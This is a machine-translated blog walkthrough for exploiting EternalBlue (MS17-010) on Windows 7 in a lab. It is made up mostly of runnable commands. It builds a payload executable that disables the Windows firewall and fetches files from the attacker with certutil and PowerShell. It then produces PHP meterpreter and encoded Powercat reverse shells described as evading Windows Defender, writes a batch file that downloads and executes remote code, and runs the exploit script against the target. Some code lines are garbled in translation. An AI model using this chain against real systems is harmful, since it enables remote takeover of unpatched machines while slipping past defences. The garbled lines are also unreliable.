# 为 Window 7 和更高版本开发永恒之蓝(MS17–010)(自定义有效负载)

> 原文：<https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-window-7-and-higher-custom-payload-efd9fcc8b623?source=collection_archive---------0----------------------->

**摘要** 本文向您展示如何在 Windows 7 或更高版本上利用 MS17–010 漏洞。

**免责声明** 本文仅用于信息和教育目的，并面向那些愿意并好奇了解安全性和渗透测试的人。内容不得用于非法目的。如果你准备好学习新的好东西，那么继续读下去。

**详情** 为什么发这个帖子？

在我的 OSCP 训练中，我很难找到永恒的蓝色目标。经过几个小时的故障排除，它终于工作了。我想让其他人不要浪费宝贵的实验时间。

本演练是以这样的方式准备的，即它应该始终在运行 Windows 7 或更高版本的系统上工作，并且容易受到 MS17–010 的攻击。见我的另一个博客的 Windows XP 程序。

我们将利用“永恒之蓝”漏洞定制有效载荷。确切地说，我们将创建一个可执行文件:
-不被 Windows Defender 软件检测为恶意软件
-禁用 Windows 防火墙
-在没有(访问)PowerShell 的系统上工作

最终结果可能是 2 个不同的反向 shell(至少一个应该为您的目标工作):
-一个“隐身”的 Powercat 反向 shell(端口 25) >您在“Bruce”上得到这个…
-一个“隐身”的 meterpreter php 反向 shell(端口 53)

POC 由两台机器组成:受害者(Windows 7 位)和攻击者机器(Kali Linux 2022.1)。

受害者:

*   Windows 7 专业版[版本 6.1 7601]
    - IP 地址:192.168.62.169
    -安全性:默认 Windows 防火墙(启用所有配置文件)。

攻击者(针对反向外壳):

*   Kali Linux(我们将使用变量‘kali’或‘LHOST’)
    -IP 地址:192.168.62.161

在本指南中，我将交替使用术语“kali”和“LHOST”。您需要更改攻击者系统的 ip 地址。

**先决条件** 我们从安装先决条件开始，在我们可以运行漏洞利用之前，这些先决条件必须到位。

1.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载并安装最新版本的 Impacket。设置目录全局可写(是的，这是必要的)。

```
cd /opt
sudo git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)
sudo chmod 777 /opt/impacket -R
```

2.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

安装 virtualenv 工具。

```
sudo apt install virtualenv
```

3.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Impacket 目录中启动 python2 虚拟环境

```
cd /opt/impacket
sudo virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
```



注意:如果您得到一个 Python 文件未找到的错误，只需再次执行该命令，它将工作。

结果:您应该有一个对'(impacket-venv)'的提示更改。

4.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 python2 虚拟环境'(impacket-venv)'中，安装 python2 的 pip。

```
cd /tmp                                                                                                                                               
wget  [https://bootstrap.pypa.io/pip/2.7/get-pip.py](https://bootstrap.pypa.io/pip/2.7/get-pip.py) -O /tmp/get-pip.py --no-check-certificate
sudo python2 get-pip.py
```


5.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 python2 虚拟环境'(impacket-venv)'内部，安装 impacket 需求

```
cd /opt/impacket
pip install -r requirements.txt
pip install .
```



**枚举。** 现在您已经根据运行漏洞的要求更新了您的系统，您可以开始扫描目标机器(在我们的例子中是 Windows 7)。

6.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

使用 nmap 扫描目标计算机的 SMB 漏洞。

```
cd /usr/share/nmap/scripts
target=192.168.62.169
p=445
scriptargs='smbpass=','smbdomain=mydomain.com','unsafe=1'
for script in $(ls smb* | grep -v -e brute -e flood); do echo "=== $script ==="; sudo nmap $(echo $target) -script=$script -script-args="${scriptargs}" -p $p| grep "|" ; done
```



我们的目标机器易受 MS17–010 攻击！

**有效负载创建(针对 Window 7 和更高版本)** 我们最终的有效负载将是一个可执行文件:
-不会被 Windows Defender 软件删除
-禁用 Windows 防火墙
-在没有 Powershell 的系统上工作
-将设置一个“隐身”Powercat 反向 shell(端口 25)
-将设置一个“隐身”meterpreter php 反向 shell(端口 53)

运行该漏洞所需的一切都被复制到 Kali 上的/tmp 目录中。我们将通过 Python 简单 HTTP 服务器提供这个目录。

7.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

复制并粘贴下面的 C 代码以创建源文件/tmp/backup.c .(调整 kali =<ip-address with="" your="" kali="" host=""></ip-address>

```
LHOST=192.168.62.161
portweb=80
rshell=shell-25.txtcd /tmp
echo '#include <stdlib.h>'> testexe.c
echo 'int main ()' >> testexe.c
echo '{'>> testexe.c
echo 'int i;' >> testexe.c
# Add userecho 'i = system ("netsh advfirewall set allprofiles state off");' >> testexe.c
# Download files
echo i = system \("\"certutil.exe -urlcache -split -f \\"\""[http://${LHOST}:${portweb}/backup.bat\\](http://${kali}:${portweb}/backup.bat\\)"\"" C:\\\\\Windows\\\\\Tasks\\\\\\\backup.bat"\"\)\; >> testexe.c
echo i = system \("\"certutil.exe -urlcache -split -f \\"\""[http://${LHOST}:${portweb}/php.exe\\](http://${kali}:${portweb}/php.exe\\)"\"" C:\\\\\Windows\\\\\Tasks\\\\\\\php.exe"\"\)\; >> testexe.c
echo i = system \("\"certutil.exe -urlcache -split -f \\"\""[http://${LHOST}:${portweb}/php7.dll\\](http://${kali}:${portweb}/php.exe\\)"\"" C:\\\\\Windows\\\\\Tasks\\\\\\\php7.dll"\"\)\; >> testexe.c
echo i = system \("\"powershell.exe -c (New-Object System.Net.Webclient).DownloadFile('[http://${LHOST}:${portweb}/backup.bat','C:\\\\\Windows\\\\\Tasks\\\\\\\backup.bat'](http://${kali}:${portweb}/backup.bat','C:\\\\\Windows\\\\\Tasks\\\\\\\backup.bat'))"\"\)\; >> testexe.c
# Execute files
echo i = system \(\"ping -n 1 $LHOST\"\)\; >> testexe.c
echo 'i = system ("START /B c:\\\\Windows\\\\Tasks\\\\backup.bat");' >> testexe.c
echo i = system \(\"icacls c:\\\\\\Windows\\\\\\Tasks\\\\\\\\* /c /t /grant everyone:f\"\)\; >> testexe.cecho 'return 0;' >> testexe.c 
echo '}' >> testexe.c
```

Result is source file /tmp/testexe.c



8\. Performed on 192.168.62.161 (attacker machine, Kali Linux)

Compile /tmp/testexec.c to /tmp/ruby.exe (ruby.exe is arbitrary, it can be something else if you want).

```
# Compile as x86 Windows PE file
/usr/bin/i686-w64-mingw32-gcc /tmp/testexe.c -o /tmp/ruby.exe
```



You have now created a Windows payload file. The next steps are to prepare the related files that will be called by the payload file (ruby.exe).

**PHP meter preter reverse shell payloay** 的值如果您确信可以在您的目标上使用 PowerShell，您也可以跳过这一 PHP 部分，继续使用 Powercat。您不需要调整 ruby.exe 文件(步骤 7 和 8)。

我们最后的有效载荷文件(ruby.exe)将在 TCP 端口 53 上设置一个 PHP meterpreter 反向 shell。这是通过以下代码行完成的:

I = system(" certutil . exe-URL cache-split-f \ " http://192 . 168 . 62 . 161:80/backup . bat \ " C:\ \ Windows \ \ Tasks \ \ backup . bat ")；

I = system(" certutil . exe-URL cache-split-f \ " http://192 . 168 . 62 . 161:80/PHP . exe \ " C:\ \ Windows \ \ Tasks \ \ PHP . exe ")；

I = system(" certutil . exe-URL cache-split-f \ " http://192 . 168 . 62 . 161:80/PHP 7 . dll \ " C:\ \ Windows \ \ Tasks \ \ PHP 7 . dll ")；

你可以在我的文章中读到更多关于“隐形”PHP Meterpreter shell 的内容:

[](https://medium.com/@minix9800/evade-windows-defender-reverse-shell-detection-with-php-exe-and-metasploit-2ee0aabafedd) [## 使用 php.exe 和 MetaSploit 规避 Windows Defender 反向外壳检测。

### 摘要

medium.com](https://medium.com/@minix9800/evade-windows-defender-reverse-shell-detection-with-php-exe-and-metasploit-2ee0aabafedd) 

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载适用于 Windows x86 的 php 7.x 可执行文件。从*中提取所有文件。zip 文件，并将 2 个相关文件复制到我们的暂存目录/tmp。检查[https://windows.php.net/downloads/releases](https://windows.php.net/downloads/releases)的最新 7.x 版本。复制最新的 Win32 x86 php zip 文件名。



```
phpzip=php-7.4.30-nts-Win32-vc15-x86.zip
mkdir /tmp/php-x86 2>/dev/null
wget [https://windows.php.net/downloads/releases/${phpzip](https://windows.php.net/downloads/releases/$%7Bphpzip)} -O /tmp/${phpzip}
cd /tmp/php-x86
unzip /tmp/${phpzip}cp /tmp/php-x86/php.exe /tmp
cp /tmp/php-x86/php7.dll /tmp
```



10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

为 PHP 创建反向外壳代码

```
LHOST=192.168.62.161
LPORT=53
payload="reverse_php meterpreter_reverse_tcp"
for payload in $(echo $payload); do msfvenom -p php/$payload LHOST=$LHOST LPORT=$LPORT -f raw > /tmp/${payload}.php; done
```



**Powercat 编码的反向 shell 有效负载** 我们最终的有效负载文件(ruby.exe)将在 TCP 端口 25 上设置一个“隐形”Powercat 反向 shell。这是通过以下代码行完成的:

I = System(" powershell . exe-c(New-Object System。Net.Webclient)。download file('[http://192 . 168 . 62 . 161:80/backup . bat '，' C:\ \ Windows \ \ Tasks \ \ backup . bat '](http://192.168.62.161:80/backup.bat','C:\\Windows\\Tasks\\backup.bat')))"；

你可以在我的文章中读到更多关于“隐形”Powercat 反向外壳的信息:

[](https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1) [## 使用 Powercat 规避 Windows Defender 反向外壳检测

### 摘要

systemweakness.com](https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1) 

11.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载 powercat.ps1，执行 powercat 并创建一个编码的有效负载文件(/tmp/shell-25.txt)。

```
LHOST=192.168.62.161
LPORT=25
rshell=shell-25.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```



12.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

创建一个 Windows 批处理文件(/tmp/backup.bat)。这个批处理文件由我们的最终负载文件(ruby.exe)调用。

```
LHOST=192.168.62.161
portweb=80
rshell=shell-25.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${portweb}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat
echo START /B c:\\Windows\\Tasks\\php.exe -d allow_url_fopen=true -r "eval(file_get_contents('http://$LHOST:$portweb/meterpreter_reverse_tcp.php'));" >>/tmp/backup.bat
```



**设置所需的监听器**

接下来打开 Bash 终端的一个新实例。为每个“监听器”打开一个新标签。您需要为所有必需的侦听器打开 5 个选项卡。

13.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

设置 HTTP 登台程序，以便将重要文件下载到目标。

```
python3 -m http.server 80 — directory /tmp
```


14.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

设置 TCPdump ICMP 侦听器(以解决网络问题)。在 VPN 上使用 tun0。

```
sudo tcpdump -i eth0 icmp
```



15.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在端口 53 上启动一个 PHP Meterpreter 侦听器来捕获 PHP 连接。

```
LHOST=192.168.62.161
LPORT=53
PAYLOAD=php/meterpreter_reverse_tcp
sudo msfconsole -qn -x "use exploit/multi/handler; set PAYLOAD $PAYLOAD; set LHOST $LHOST; set LPORT $LPORT; run";
```



16.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在端口 25 上启动一个 netcat 监听器来捕获 Powercat 连接。

```
rlwrap nc -nlvp 25
```



准备 MS17–010 exploit
我们现在已经为有效载荷做好了准备。下一节是关于运行实际的利用。打开一个新的 Bash 终端实例来执行命令。

17.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载漏洞。

```
cd /tmp
git clone [https://github.com/helviojunior/MS17-010.git](https://github.com/helviojunior/MS17-010.git)
```

18.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Impacket 文件夹中启动 Python2 环境

```
cd /opt/impacket
sudo virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
```

19.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在 Python2 虚拟环境'(impacket-venv)'中，使用我们的有效负载文件(/tmp/ruby.exe)对我们的目标(192.168.62.169)运行漏洞利用

```
python2 /tmp/MS17-010/send_and_execute.py 192.168.62.169 /tmp/ruby.exe
```



查看我们的结果:

HTTP 侦听器



所有文件都已下载。有些文件我们下载了不止一次，这是因为在 PowerShell 不可用的情况下的冗余。

ICPM 听众



我们有网络连接(我们已经知道了这一点，因为我们的 HTTP 侦听器受到了攻击)。

PHP 抄表员监听器



我们找到了一个米普雷特弹壳。您还可以将有效负载更改为非 meterpreter shell。

Powercat 监听器



这成功了！

我们针对 Windows 7 目标的攻击使用了两种不同的 shells。

在我的下一篇博客中，我将展示如何用 XP 目标来做这件事，root“Alice”也可以。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 条线索、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！